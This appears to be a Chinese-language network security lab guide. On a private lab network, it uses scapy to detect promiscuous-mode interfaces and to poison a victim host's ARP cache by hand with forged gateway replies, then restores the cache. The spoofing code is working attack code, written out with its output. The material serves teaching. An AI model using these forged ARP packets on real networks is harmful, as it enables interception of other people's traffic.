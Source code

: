 # 实验

## 网络拓扑

![](attach/media/arp-network.png)

如图所示网络中的节点基本信息如下：

* 攻击者主机
    * 08:00:27:bd:92:09 / eth1
    * 192.168.0.103
* 受害者主机
    * 08:00:27:aa:ff:3e / enp0s3 
    * 192.168.0.102
* 网关
    * 08:00:27:2a:4b:04 / eth1 
    * 192.168.0.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
# 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("192.168.0.102")

# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
# 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 192.168.0.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 192.168.0.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 192.168.0.103 dev enp0s3 lladdr 08:00:27:bd:92:09 STALE
# 192.168.0.1 dev enp0s3 lladdr 08:00:27:bd:92:09 REACHABLE
```

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:2a:4b:04", psrc="192.168.0.102", hwsrc="08:00:27:aa:ff:3e")
sendp(restorepkt2, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

## 补充 FAQ

### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```bash
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```bash
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

### scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```python
import warnings
warnings.filterwarnings('ignore')
```

### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> -p
> --no-promiscuous-mode
> Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for `ether host {local-hw-addr} or ether broadcast'.

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

## 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具


